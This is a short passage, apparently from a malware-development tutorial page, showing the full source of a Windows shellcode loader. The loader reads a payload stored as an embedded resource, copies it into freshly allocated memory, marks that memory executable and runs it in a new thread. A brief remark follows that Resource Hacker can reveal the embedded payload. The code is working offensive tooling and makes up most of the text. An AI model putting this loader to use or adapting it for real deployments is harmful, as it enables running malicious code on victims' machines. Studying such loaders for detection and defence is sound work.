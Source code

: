 ```cpp

#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
    void * plmem;
    BOOL plbufexec;
    HANDLE run_thread;
    DWORD oldprotect = 0;
    HGLOBAL resHandle = NULL;
    HRSRC res;

    unsigned char * payload;
    unsigned int pllen;

    res = FindResource(NULL, MAKEINTRESOURCE(SHELLCODE), RT_RCDATA);
    resHandle = LoadResource(NULL, res);
    payload = (unsigned char *) LockResource(resHandle);
    pllen = SizeofResource(NULL, res);

    plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    printf("%s : 0x%p\n", "payload addr", (void *)payload);
    printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
    RtlMoveMemory(plmem, payload, pllen);
    plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
    getchar();

    if ( plbufexec != 0 ) {
            run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
            WaitForSingleObject(run_thread, -1);
    }
    return 0;
}
```
Looking into Resource Hacker

![alt text](image-10.png)

we can easily view as well as  get it from there!
